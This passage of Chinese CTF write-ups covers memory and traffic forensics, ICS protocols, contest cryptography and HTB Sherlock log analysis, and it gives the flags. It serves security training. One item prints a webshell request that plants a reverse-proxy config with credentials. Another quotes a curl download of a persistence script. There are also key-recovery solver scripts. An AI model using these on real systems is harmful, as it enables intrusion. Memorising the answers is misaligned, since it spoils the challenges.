'X'), (50, 'X'), (51, 'X'), (53, 'X'), (54, 'X'), (61, 'X'), (62, 'X'), (63, 'X'), (64, 'X'), (65, 'X'), (66, 'X')], [(4, 'X'), (5, 'X'), (18, 'X'), (19, 'X'), (20, 'X'), (32, 'X'), (33, 'X'), (34, 'X'), (35, 'X'), (46, 'X'), (47, 'X'), (48, 'X'), (49, 'X'), (50, 'X'), (51, 'X'), (61, 'X'), (62, 'X'), (63, 'X'), (64, 'X'), (65, 'X')], [(2, 'X'), (3, 'X'), (4, 'X'), (15, 'X'), (16, 'X'), (17, 'X'), (30, 'X'), (31, 'X'), (32, 'X'), (44, 'X'), (45, 'X'), (46, 'X'), (49, 'X'), (51, 'X'), (52, 'X'), (53, 'X'), (61, 'X')], [(1, 'X'), (2, 'X'), (15, 'X'), (29, 'X'), (30, 'X'), (49, 'X'), (61, 'X')], [(60, 'X'), (61, 'X')], [(57, 'X'), (58, 'X'), (59, 'X'), (60, 'X')]]

FLAG：flag{2024nyjy777*}
Forensic
win内存取证3

分析win内存镜像，电脑中有一张记录flag的图片，请找出来，并获得flag,flag格式为flag{xx}
知识点：内存取证、文件提取
$ vol -f mem.raw windows.filescan > filescan
$ cat filescan | grep -i -E "jpg|jpeg|png|gif"
0x7db0fc10 \Users\ctf\Desktop\777.png
0x7dd33dd0 \Users\ctf\AppData\Roaming\Microsoft\Windows\Themes\TranscodedWallpaper.jpg
0x7fb21c40 \Windows\SysWOW64\pngfilt.dll
0x7fc5c6c0 \Users\Public\Pictures\Sample Pictures\Desert.jpg
0x7fdda170 \Windows\System32\pngfilt.dll
0x7fed75c0 \Users\Public\Pictures\Sample Pictures\Chrysanthemum.jpg
$ vol -f mem.raw windows.dumpfiles --physaddr 0x7db0fc10
FLAG：flag{2shygsbnajwjji}
代理流量

有一台Web应用服务器发现被攻击者获取了权限，并对内网做了扫描。请尝试分析攻击过程，并找到代理工具的回连地址及端口，提交地址端口，示意：10.10.10.10:8080，提交flag为flag{10.10.10.10:8080},flag格式flag{x}
知识点：流量分析、webshell流量分析
343 号包上传 frpc.ini 文件
POST /1.php HTTP/1.1
Host: 192.168.2.197:8081
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; rv:22.0) Gecko/20130405 Firefox/22.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 1374
Connection: close
aaa=%40ini_set(%22display_errors%22%2C%20%220%22)%3B%40set_time_limit(0)%3Bfunction%20asenc(%24out)%7Breturn%20%24out%3B%7D%3Bfunction%20asoutput()%7B%24output%3Dob_get_contents()%3Bob_end_clean()%3Becho%20%2228%22.%22f72%22%3Becho%20%40asenc(%24output)%3Becho%20%22f486%22.%2211f4%22%3B%7Dob_start()%3Btry%7B%24f%3Dbase64_decode(substr(%24_POST%5B%22j68071301598f%22%5D%2C2))%3B%24c%3D%24_POST%5B%22xa5d606e67883a%22%5D%3B%24c%3Dstr_replace(%22%5Cr%22%2C%22%22%2C%24c)%3B%24c%3Dstr_replace(%22%5Cn%22%2C%22%22%2C%24c)%3B%24buf%3D%22%22%3Bfor(%24i%3D0%3B%24i%3Cstrlen(%24c)%3B%24i%2B%3D2)%24buf.%3Durldecode(%22%25%22.substr(%24c%2C%24i%2C2))%3Becho(%40fwrite(fopen(%24f%2C%22a%22)%2C%24buf)%3F%221%22%3A%220%22)%3B%3B%7Dcatch(Exception%20%24e)%7Becho%20%22ERROR%3A%2F%2F%22.%24e-%3EgetMessage()%3B%7D%3Basoutput()%3Bdie()%3B&j68071301598f=FBL3Zhci93d3cvaHRtbC9mcnBjLmluaQ%3D%3D&xa5d606e67883a=5B636F6D6D6F6E5D0A7365727665725F61646472203D203139322E3136382E3135372E3131310A7365727665725F706F7274203D20383838380A746F6B656E3D6659346533766372535941486A6A464B7A4B4B380A0A5B746573745F736F636B355D0A74797065203D207463700A72656D6F74655F706F7274203D383131310A706C7567696E203D20736F636B73350A706C7567696E5F75736572203D2050787059784642644E70370A706C7567696E5F706173737764203D2059454453756E70480A7573655F656E6372797074696F6E203D20747275650A7573655F636F6D7072657373696F6E203D20747275650A
十六进制解码得到 frpc.ini 文件内容：
[common]
server_addr = 192.168.157.111
server_port = 8888
token=fY4e3vcrSYAHjjFKzKK8
[test_sock5]
type = tcp
remote_port =8111
plugin = socks5
plugin_user = PxpYxFBdNp7
plugin_passwd = YEDSunpH
use_encryption = true
use_compression = true
FLAG：flag{192.168.157.111:8888}
APT窃密事件溯源

某单位遭遇威胁组织攻击，威胁组织对攻陷的主机进行了信息收集并窃取机密信息，安防设备捕获到攻击流量（hack.pcap），结合提供的开源APT分析报告，研判发起本次攻击事件的APT组织窃取的文件。flag格式为flag{}
知识点：流量分析
FLAG：flag{C:\Users\wdr\Desktop\test\888888888.txt}
失窃的MP4文件

已知黑客入侵某内部系统后，使用自定义的协议格式回传窃取的高价值mp4文件，请针对目标流量还原被窃取文件，找到flag标识，格式：flag{XXXX_XXXX_XXXX_XXXX}
FLAG：flag{}
寻找矿池地址

请分析服务器（root/Root@123)被挖矿的地址连接池，找到域名和端口，flag为flag{域名:端口},flag格式为flag{xxxx}
在线环境，无附件。
FLAG：flag{www.baiiduu.com:3333}
ICS
modbus

先运行服务器再运行客户端，产生流量。找到流量中的flag
FLAG：flag{sgcc_modbus_hack}
104协议
题目描述
- 提示 1：
- 提示 2：
知识点：流量分析、工控流量分析、IEC 60870-104协议
解题步骤、关键截图、代码
tshark -r 104_2.pcapng -T fields -e "iec60870_asdu.ioa"
ZmxhZ3syMDI0bnlhcWdmenNsfQ==
FLAG：flag{2024nyaqgfzsl}
这是一个秘密
- 提示 1：
- 提示 2：
知识点：流量分析、工控流量分析、s7comm协议
解题步骤、关键截图、代码
YWx3YXlzZm9yd2FyZCEh
FLAG：flag{alwaysforward!!}
工控流量分析二

请你帮助小刘分析流量包，黑客在PLC中写入了flag。flag形如下：flag{xx}
知识点：流量分析、工控流量分析、modbus协议、文件提取
tshark -r sample.pcap -Y "modbus.func_code == 16 and ip.dst == 192.168.4.80" -T fields -e "modbus.regnum16"
tshark -r sample.pcap -Y "modbus.func_code == 16 and ip.dst == 192.168.4.80" -T fields -e "modbus.regval_uint16"
导出后前面一些行删除掉。
import struct
out1 = '''501,502,503,504,505,506,507,508,509,510,511,512,513,514,515,516,517,518,519,520,521,522,523,524,525,526,527,528,529,530,531,532,533,534,535,536,537,538,539,540,541,542,543,544,545,546,547,548,549,550,551,552,553,554,555,556,557,558,559,560,561,562,563,564,565,566,567,568,569,570,571,572,573,574,575,576,577,578,579,580,581,582,583,584,585,586,587,588,589,590,591,592,593,594,595,596,597,598,599,600
300,301,302,303,304,305,306,307,308,309,310,311,312,313,314,315,316,317,318,319,320,321,322,323,324,325,326,327,328,329,330,331,332,333,334,335,336,337,338,339,340,341,342,343,344,345,346,347,348,349
601,602,603,604,605,606,607,608,609,610,611,612,613,614,615,616,617,618,619,620,621,622,623,624,625,626,627,628,629,630,631,632,633,634,635,636,637,638,639,640,641,642,643,644,645,646,647,648,649,650
20,21,22,23,24,25,26,27,28,29,30
651,652,653,654,655,656,657,658,659,660,661,662,663,664,665,666,667,668,669,670,671,672,673,674,675,676,677,678,679,680,681,682,683,684,685,686,687,688,689,690,691,692,693,694,695,696,697,698,699,700,701,702,703,704,705,706,707,708,709,710,711,712,713,714,715,716,717,718,719,720,721,722,723,724,725,726,727,728,729,730
400,401,402,403,404,405,406,407,408,409,410
731,732,733,734,735,736,737,738,739,740,741
800,801,802,803,804,805,806,807,808,809,810,811,812,813,814,815,816,817,818,819,820,821,822,823,824,825,826,827,828,829,830,831,832,833,834,835,836,837,838,839,840,841,842,843,844,845,846,847,848,849,850,851,852,853,854,855,856,857,858,859,860,861,862,863,864,865,866,867,868,869,870,871,872,873,874,875,876,877,878,879,880,881,882,883,884,885,886,887,888,889,890,891,892,893,894,895,896,897,898,899
1020,1021,1022,1023,1024,1025,1026,1027,1028,1029,1030
950,951,952,953,954,955,956,957,958,959,960,961,962,963,964,965,966,967,968,969,970,971,972,973,974,975,976,977,978,979,980,981,982,983,984,985,986,987,988,989,990,991,992,993,994,995,996,997,998,999'''
out2 = '''35152,20039,3338,6666,0,13,18760,17490,0,202,0,21,2050,0,136,28646,1280,1,43337,17473,21624,40173,39361,28356,8204,17463,22015,65431,59649,2489,7907,3108,56940,43897,10006,6619,14467,16858,41909,62994,41606,44967,4880,65305,51531,5154,31113,16932,12113,35044,9482,37308,17441,57313,60529,7293,53338,7139,65139,13632,24398,11964,6379,15832,7641,16957,39379,28610,39611,18886,26159,36901,37015,23523,60088,50288,25863,63143,46015,4715,9009,3261,35387,32311,31246,54672,34766,25393,27052,42714,29672,57140,13552,61978,6631,49860,21387,19138,15580,19688
2022,14230,24407,51417,53367,43434,45988,56534,22242,16708,26256,3965,43630,27296,31279,58771,37677,18394,62888,15466,41572,59268,62539,18159,37076,1443,63116,9402,31914,10314,640,362,25418,19391,47604,42030,35157,12299,9799,39015,21976,25878,20462,37811,13614,12607,61846,49399,49268,47255
34703,38328,25916,15313,37803,26357,6463,37827,46004,12283,58818,21306,15272,38945,56841,36045,11178,13247,48014,32635,55718,38295,55334,6854,16077,9148,26104,22653,7350,63315,53160,32306,40793,32112,21847,191,30502,31458,3525,14898,50255,51672,33909,46723,55750,11579,20347,45572,25029,28961
21704,5525,6603,23280,2557,34653,62021,49159,53649,46083,586
22986,17646,9046,22688,42952,5094,52592,6008,28361,22549,58445,25671,24235,4032,3742,62769,26282,37687,33625,50386,47775,59075,58524,56196,50982,56404,59623,31234,6129,62130,47090,26678,14569,11513,38430,24104,18732,48310,39067,5949,9144,4594,20071,28403,50272,5835,52684,39510,15880,40327,24560,54406,44102,52980,52671,59758,62162,31914,30091,21070,16366,15858,45735,59187,38276,52608,51571,28501,40351,16327,52701,19208,35838,5138,34120,24226,4297,19220,8825,35138
31233,8421,33855,27650,21086,0,0,18757,20036,44610,24706
32256,14820,53603,31138,59844,0,0,18757,20036,44610,24706
35152,20039,3338,6666,0,13,18760,17490,0,255,65280,21,2050,0,11,34589,31488,1,10825,17473,21624,40173,22737,3779,8200,54437,65535,52206,41225,24840,10090,15290,35963,29190,3768,621,22107,27429,61789,48290,5112,18340,59393,18641,912,41479,8261,3904,35358,32788,15616,10618,82,62464,42216,328,53507,28792,35946,44519,41397,18151,62439,27708,61118,50752,9275,65306,27990,57633,10202,16091,29095,37839,59718,34717,27702,60284,707,21676,62201,38919,40270,42680,47608,10248,31631,41968,61956,4805,34833,5175,58028,38762,3252,10305,48471,3392,57731,20007
31233,8421,33855,27650,21086,0,0,18757,20036,44610,24706
8144,6781,47248,36128,20925,47799,34232,15712,41049,23513,12467,45137,35669,28152,49490,48267,48864,46474,35737,13595,6752,32302,38584,61744,33721,10990,4652,23242,52213,8821,12846,60357,29151,43765,12387,39897,47789,3491,53137,28899,14713,57945,7993,24831,63201,49280,33720,5769,47340,31152'''
out1 = out1.replace('\n', ',').split(',')
out2 = out2.replace('\n', ',').split(',')
lst = [(int(a), int(b)) for a, b in zip(out1, out2) if int(a) > 500 and int(a) < 800]
lst.sort(key=lambda x: x[0])
print(lst)
with open("a.png", "wb") as f:
for k, v in lst:
bt = struct.pack(">H", v)
f.write(bt)

FLAG：flag{Welcome_To_thE_coMPEtition}
NYWL2024002

附件是一个PLC项目文件以及相关的截图，请分析里面的PLC程序，求MDO的值为多少时可使MD4的值为9498.563，flag为MD0的值，flag格式为flagt{xxx},例如MD0的值是123，那么flag就是flag{123}
FLAG 为flag{}
data-encry

编译文件，执行文件，获取flag,flag格式flag{xxx}
kqfl{xlhh-djx-qqar}，使用 CyberChef 的ROT13_Brute_Force模块爆破即可。
FLAG：flag{sgcc-yes-llvm}
参考资料
2024年能源网络安全大赛预赛

能源安全杂项
Modbus
奇怪的流量
tshark -r modbus.pcapng -Y modbus -T fields -e modbus.regval_uint16
去除 65535
FLAG：flag{ee92722f-973c-46c9-a05e-d5e9f3540529}
browser
找到flag，flag格式为flag{xxx}
能源工控安全分析
gooooose
IP找不到了
Fins协议分析
来运行PLC程序吧
decproj
能源网络系统安全
testJava
web_gohttp
web_ssrf
能源逆向工程
ezsys
easy_re
能源行业加密技术
seeyouagain
找到钥匙
能源数据安全分析
结构化数据分类分级识别
参考资料
- https://mp.weixin.qq.com/s/aFbkQAwuou9H9TiR9neyIw
- https://mp.weixin.qq.com/s/QI5rd8ZKbEg_MTMHmbbmCw
- https://www.cnblogs.com/wgf4242/p/18159094
熵密杯
2025年第三届熵密杯密码安全挑战赛
此次挑战赛由中国密码学会、重庆市密码管理局指导，国家信息技术安全研究中心主办，采取线下赛闯关模式，模拟重要系统典型密码应用场景，参赛战队通过发现典型场景中存在的密码算法模式配置、密钥管理、密码协议、密码服务、网络安全等方面密码应用安全缺陷和网络安全漏洞，综合检验各个战队密码应用常见安全缺陷的分析识别、密码算法等功能调用的编程实现、网络协议数据包分析及相关工具使用、网络和系统配置检查、源代码审计等技能水平。1
来自全国 31 个省（自治区、直辖市）的 600 余名密码专业技术人才，组成 205 支战队，同场竞技，紧贴智能网联汽车典型密码应用场景，围绕预设的密码算法、密钥管理、密码协议等安全缺陷，闯关夺旗。2
2024年第二届熵密杯密码安全挑战赛
此次赛事由中国密码学会、宁夏回族自治区密码管理局、中国科学院大学密码学院支持，国家信息技术安全研究中心联合密码科技国家工程研究中心主办，采取线下赛方式，通过模拟仿真重要行业领域密码应用典型场景，预置密码算法模式配置、密钥管理、密码协议、密码服务、网络安全等方面密码应用安全缺陷和网络安全漏洞,综合检验参赛队伍在密码应用安全缺陷识别、密码算法 功能编程调用、网络协议数据解析、网络和系统配置核查、源代码审计等方面的实战技能。[^2024-公告]
本届赛事召集了来自全国 29 个省区市的 50 家知名高校、91 家测评机构、8 家安全企业，共计 448 名密码专业技术人才参赛。
中国科学技术大学“Nebula 战队”一骑绝尘，拔得头筹，豪取冠军并获特等奖。卫冕冠军上海交通大学“0ops 战队”凭借后程发力，强势逆转勇夺亚军，携吉林大学“Spirit 战队”、西北大学“NwuSec 战队”、山东大学“HASHTEAM 战队”分获一等奖。浙江大学“来自东方的神秘力量”等 5 支战队获二等奖。10 支战队获三等奖。30 支战队获优胜奖。
[^2024-公告]：关于举办第二届“熵密杯”密码应用安全挑战赛公告
2023年首届熵密杯密码应用安全竞赛
由中国密码学会支持，2023 商用密码大会执委会主办，南京赛宁信息技术有限公司提供技术支撑的首届“熵密杯”密码应用安全竞赛于 8 月 10 日在郑州举办。
2025年第三届熵密杯密码安全挑战赛
参考资料
2024年第二届熵密杯密码安全挑战赛

- 题目背景
你是一位公司内部工作人员，你们公司最近上线了一个协同签名系统，所有重要事项由总经理通过该系统进行签名确认。有一天，你无意中接触到后台系统管理员的房间，里面有一台未上锁的电脑，其中似乎有着可以接触到公司关键操作的线索。
- 最终目标
你需要利用你的技能和智慧，利用所有可能的线索，搜寻系统中密码应用潜在的漏洞，最终实现完成一次“非法”的签名！
注意：你并不是恶意黑客，你的目的是测试系统的安全性，找出可能存在的密码应用漏洞，以便系统开发人员加强系统防御措施。
- 解题路径
本次竞赛共设置初始谜题和夺旗闯关两个环节，其中初始谜题设置 3 道题，闯关夺旗设置 5 道题，共计 8 道题。

初始谜题
初始谜题1
请下载题目附件，并获取在线场景，双击运行附件中的客户端，输入IP地址和端口号连接服务端。请认真分析题目附件中的代码，根据服务端所给出的密文，解密出所对应的明文消息，并提交至服务端。
from sympy import Mod, Integer
from sympy.core.numbers import mod_inverse
# 模数
N_HEX = "FFFFFFFEFFFFFFFFFFFFFFFFFFFFFFFF7203DF6B21C6052B53BBF40939D54123"
MODULUS = Integer(int(N_HEX, 16))
MSG_PREFIX = "CryptoCup message:"
# 加密函数
def encrypt_message(message, key):
# 添加前缀
message_with_prefix = MSG_PREFIX + message
message_bytes = message_with_prefix.encode('utf-8')
message_len = len(message_bytes)
num_blocks = (message_len + 15) // 16
blocks = [message_bytes[i * 16:(i + 1) * 16] for i in range(num_blocks)]
# 进行0填充
blocks[-1] = blocks[-1].ljust(16, b'\x00')
encrypted_blocks = []
k = key
# 加密每个分组
for block in blocks:
block_int = int.from_bytes(block, byteorder='big')
encrypted_block_int = Mod(block_int * k, MODULUS)
encrypted_blocks.append(encrypted_block_int)
k += 1 # 密钥自增1
# 将加密后的分组连接成最终的密文
encrypted_message = b''.join(
int(block_int).to_bytes(32, byteorder='big') for block_int in encrypted_blocks
)
return encrypted_message
# 解密函数
def decrypt_message(encrypted_message, key):
num_blocks = len(encrypted_message) // 32
blocks = [encrypted_message[i * 32:(i + 1) * 32] for i in range(num_blocks)]
decrypted_blocks = []
k = key
# 解密每个分组
for block in blocks:
block_int = int.from_bytes(block, byteorder='big')
key_inv = mod_inverse(k, MODULUS)
decrypted_block_int = Mod(block_int * key_inv, MODULUS)
decrypted_blocks.append(decrypted_block_int)
k += 1 # 密钥自增1
# 将解密后的分组连接成最终的明文
decrypted_message = b''.join(
int(block_int).to_bytes(16, byteorder='big') for block_int in decrypted_blocks
)
# 去除前缀
if decrypted_message.startswith(MSG_PREFIX.encode('utf-8')):
decrypted_message = decrypted_message[len(MSG_PREFIX):]
return decrypted_message.rstrip(b'\x00').decode('utf-8')
# 测试
initial_key = Integer(0x123456789ABCDEF0123456789ABCDEF0123456789ABCDEF0123456789ABCDEF0)
message = "Hello, this is a test message."
print("Original Message:", message)
# 加密
encrypted_message = encrypt_message(message, initial_key)
print("Encrypted Message (hex):", encrypted_message.hex())
# 解密
decrypted_message = decrypt_message(encrypted_message, initial_key)
print("Decrypted Message:", decrypted_message)
已知密文为a7ea042608ffce5be79a19ee45533506819e85f8d9250fccef5a89731151fd7a76d83aa85c47ba1357a86d0e9763470fb608cd54d0927125f500353e156a01da759fa814e96fa41a888eea3a9cf9b062923ed70774add490c7ed7f83d6b47e711e7b3c8a960dcc2838e577459bb6f2769d0917e1fd57db0829633b77652c2180
方法一：通过动态调试计算获取 key
...
# 动态调试获取第一块明文和密文
m = 89652660640613347754090896429354803559
c = 75949716558974720160457011444725356343804438342271795660520482736366924463482
# 计算密钥
key = Mod(c * mod_inverse(m, MODULUS), MODULUS)
print("Key:", hex(int(key)))
# Key: 0xfb85e511115f381827f03b1cef8e6d52a5c920f8e9e285cc842b3e6ddf935b78
# 解密
encrypted_message = bytes.fromhex("a7ea042608ffce5be79a19ee45533506819e85f8d9250fccef5a89731151fd7a76d83aa85c47ba1357a86d0e9763470fb608cd54d0927125f500353e156a01da759fa814e96fa41a888eea3a9cf9b062923ed70774add490c7ed7f83d6b47e711e7b3c8a960dcc2838e577459bb6f2769d0917e1fd57db0829633b77652c2180")
decrypted_message = decrypt_message(encrypted_message,key=Integer(0xfb85e511115f381827f03b1cef8e6d52a5c920f8e9e285cc842b3e6ddf935b78))
print("Decrypted Message:", decrypted_message)
# Decrypted Message: dHyNBCgxEq4prNBbxjDOiOgmvviuAgfx
方法二：静态分析
# 将十六进制密文转换为字节
cipher_bytes = bytes.fromhex("a7ea042608ffce5be79a19ee45533506819e85f8d9250fccef5a89731151fd7a76d83aa85c47ba1357a86d0e9763470fb608cd54d0927125f500353e156a01da759fa814e96fa41a888eea3a9cf9b062923ed70774add490c7ed7f83d6b47e711e7b3c8a960dcc2838e577459bb6f2769d0917e1fd57db0829633b77652c2180")
# 提取第一个密文块（32字节）
first_cipher_block = cipher_bytes[:32]
c0 = int.from_bytes(first_cipher_block, byteorder='big')
# 构造明文第一个块（前缀的前16字节）
message_with_prefix = MSG_PREFIX.encode('utf-8')
first_plain_block = message_with_prefix[:16] # 取前16字节
m0 = int.from_bytes(first_plain_block, byteorder='big')
# 计算m0在模MODULUS下的逆元
m0_inv = mod_inverse(m0, MODULUS)
# 计算初始密钥: k = c0 * m0_inv mod MODULUS
k = (c0 * m0_inv) % MODULUS
初始谜题2
请下载题目附件，并获取在线场景，双击运行附件中的客户端，输入IP地址和端口号连接服务端。请认真分析题目附件中的代码，根据服务端所给出的counter和token，伪造出一个可以通过验证的counter和token，并提交至服务端。
题目源代码：
import binascii
from gmssl import sm3
# 读取HMAC key文件
def read_hmac_key(file_path):
with open(file_path, 'rb') as f:
hmac_key = f.read().strip()
return hmac_key
# 生成token
def generate_token(hmac_key, counter):
# 如果HMAC_KEY长度不足32字节，则在末尾补0，超过64字节则截断
if len(hmac_key) < 32:
hmac_key = hmac_key.ljust(32, b'\x00')
elif len(hmac_key) > 32:
hmac_key = hmac_key[:32]
# 将计数器转换为字节表示
counter_bytes = counter.to_bytes((counter.bit_length() + 7) // 8, 'big')
# print("counter_bytes:", binascii.hexlify(counter_bytes))
tobe_hashed = bytearray(hmac_key + counter_bytes)
# print("tobe_hashed:", binascii.hexlify(tobe_hashed))
# 使用SM3算法计算哈希值
sm3_hash = sm3.sm3_hash(tobe_hashed)
# 将SM3的哈希值转换为十六进制字符串作为token
token = sm3_hash
return token
current_counter = 0
def verify_token(hmac_key, counter, token):
# 生成token
generated_token = generate_token(hmac_key, counter)
global current_counter
# 比较生成的token和输入的token是否相同
if generated_token == token:
if counter & 0xFFFFFFFF > current_counter:
current_counter = counter & 0xFFFFFFFF
print("current_counter: ", hex(current_counter))
return "Success"
else:
return "Error: counter must be increasing"
else:
return "Error: token not match"
# 假设HMAC key文件路径
hmac_key_file = 'hmac_key.txt'
# 假设计数器值
counter = 0x12345678
# 读取HMAC key
hmac_key = read_hmac_key(hmac_key_file)
# 生成token
token = generate_token(hmac_key, counter)
print("Generated token:", token)
print(verify_token(hmac_key, counter, token))
知识点：SM3长度扩展攻击
初始谜题3
请下载题目附件，并获取在线场景，双击运行附件中的客户端，输入IP地址和端口号连接服务端。请认真分析题目附件中的代码，根据服务端所给出的公钥和密文，解密出所对应的明文消息，并提交至服务端。
题目源代码：
知识点：LWE
夺旗闯关
参考资料
2023年首届熵密杯密码应用安全竞赛
picoCTF
picoCTF 2025
picoCTF 2024
picoCTF 2023
picoCTF 2022
picoCTF 2021
HTB
HTB Sherlocks Brutus
题目附件：下载地址
解压密码：hacktheblue
任务1
分析 auth.log。攻击者用于进行暴力破解的 IP 地址是什么？（x.x.x.x）
检索关键词 Failed password
FLAG：65.2.161.68
任务2
暴力破解尝试已成功，攻击者获得了服务器上某个账户的访问权限。该账户的用户名是什么？（***t）
检索关键词 Accepted password
FLAG：root
任务3
确定攻击者手动登录服务器并建立终端会话以执行其目标的 UTC 时间戳。登录时间与认证时间不同，可在 wtmp 工件中找到。（YYYY-MM-DD HH:MM:SS）
- 使用 last 命令
$ last -f wtmp -F
cyberjun pts/1 65.2.161.68 Wed Mar 6 14:37:35 2024 gone - no logout
root pts/1 65.2.161.68 Wed Mar 6 14:32:45 2024 - Wed Mar 6 14:37:24 2024 (00:04)
root pts/0 203.101.190.9 Wed Mar 6 14:19:55 2024 gone - no logout
reboot system boot 6.2.0-1018-aws Wed Mar 6 14:17:15 2024 still running
root pts/1 203.101.190.9 Sun Feb 11 18:54:27 2024 - Sun Feb 11 19:08:04 2024 (00:13)
root pts/1 203.101.190.9 Sun Feb 11 18:41:11 2024 - Sun Feb 11 18:41:46 2024 (00:00)
root pts/0 203.101.190.9 Sun Feb 11 18:33:49 2024 - Sun Feb 11 19:08:04 2024 (00:34)
root pts/0 203.101.190.9 Thu Jan 25 19:15:40 2024 - Thu Jan 25 20:34:34 2024 (01:18)
ubuntu pts/0 203.101.190.9 Thu Jan 25 19:13:58 2024 - Thu Jan 25 19:15:12 2024 (00:01)
reboot system boot 6.2.0-1017-aws Thu Jan 25 19:12:17 2024 - Sun Feb 11 19:09:18 2024 (16+23:57)
wtmp begins Thu Jan 25 19:12:17 2024
- 使用提供的脚本
python3 utmp.py wtmp -o wtmp.out
FLAG：2024-03-06 06:32:45
任务4
SSH 登录会话在登录时会被跟踪并分配一个会话编号。对于问题 2 中该用户账户的攻击者会话，被分配的会话编号是多少？（XX）
Mar 6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar 6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar 6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
FLAG：37
任务5
攻击者在服务器上作为其持久化策略的一部分添加了一个新用户，并为该新用户账户赋予了更高的权限。该账户的名称是什么？
FLAG：cyberjunkie
任务6
通过创建新账户进行持久化所对应的 MITRE ATT&CK 子技术编号是什么？（TXXXX.XXX）
FLAG：T1136.001
任务7
根据 auth.log，攻击者的首次 SSH 会话在何时结束？（YYYY-MM-DD HH:MM:SS）
FLAG：2024-03-06 06:37:24
任务8
攻击者登录其后门账户并利用更高权限下载了一个脚本。使用 sudo 执行的完整命令是什么？
FLAG：/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
HTB Sherlocks Bumblebee
题目附件：下载地址
解压密码：hacktheblue
任务1
外部承包商的用户名是什么？
FLAG：apoole1
任务2
承包商使用了哪个 IP 地址创建他们的账户？
FLAG：10.10.0.78
任务3
承包商发布的恶意帖子其 post_id 是多少？
FLAG：9
任务4
凭据窃取程序将其数据发送到的完整 URI 是什么？
FLAG：http://10.10.0.78/update.php
任务5
承包商何时以管理员身份登录论坛？（UTC）
FLAG：26/04/2023 10:53:12
任务6
论坛中存在用于 LDAP 连接的明文凭据，密码是什么？
表 phpbb_config
FLAG：Passw0rd1
任务7
管理员用户的 User-Agent 是什么？
过滤管理员的 IP 10.255.254.2
10.255.254.2 - - [25/Apr/2023:12:08:42 +0100] "GET /adm/index.php?sid=ac1490e6c806ac0403c6c116c1d15fa6&i=12 HTTP/1.1" 403 9412 "http://10.10.0.27/adm/index.php?sid=ac1490e6c806ac0403c6c116c1d15fa6&i=1" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36"
FLAG：Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
任务8
承包商在何时将自己添加到管理员组？（UTC）
FLAG：26/04/2023 10:53:51
任务9
承包商在何时下载了数据库备份？（UTC）
10.10.0.78 - - [26/Apr/2023:12:01:38 +0100] "GET /store/backup_1682506471_dcsr71p7fyijoyq8.sql.gz HTTP/1.1" 200 34707 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
FLAG：26/04/2023 11:01:38
任务10
根据 access.log 所述，数据库备份的大小（字节）是多少？
FLAG：34707
Operation Blackout 2025: Phantom Check
Talion 怀疑威胁行为体进行了反虚拟化检测以规避在沙箱环境中的检测。您的任务是分析事件日志，并识别出用于虚拟化检测的具体技术。Byte Doctor 需要获取攻击者为执行这些检查而操作的注册表项或进程的证据。
任务1
攻击者使用了哪个WMI类来获取虚拟化检测所需的型号和制造商信息？（_*********）
FLAG：Win32_ComputerSystem
任务2
攻击者执行了哪个WMI查询来获取机器的当前温度值？（****** * **** _****************）
FLAG：``
任务3
攻击者加载了用于检测虚拟化的PowerShell脚本。该脚本的函数名称是什么？（****-**）
FLAG：Check-VM
任务4
上述脚本查询了哪个注册表键来获取虚拟化检测所需的服务详情？（:*******）
FLAG：HKLM:\SYSTEM\ControlSet001\Services
任务5
该虚拟机检测脚本也能识别VirtualBox。它通过比较哪些进程来判断系统是否正在运行VirtualBox？（********., *****.）
FLAG：vboxservice.exe, vboxtray.exe
任务6
该虚拟机检测脚本会以“This is a”为前缀打印检测结果。脚本检测到了哪两种虚拟化平台？（*****-*, ******）
FLAG：Hyper-V, Vmware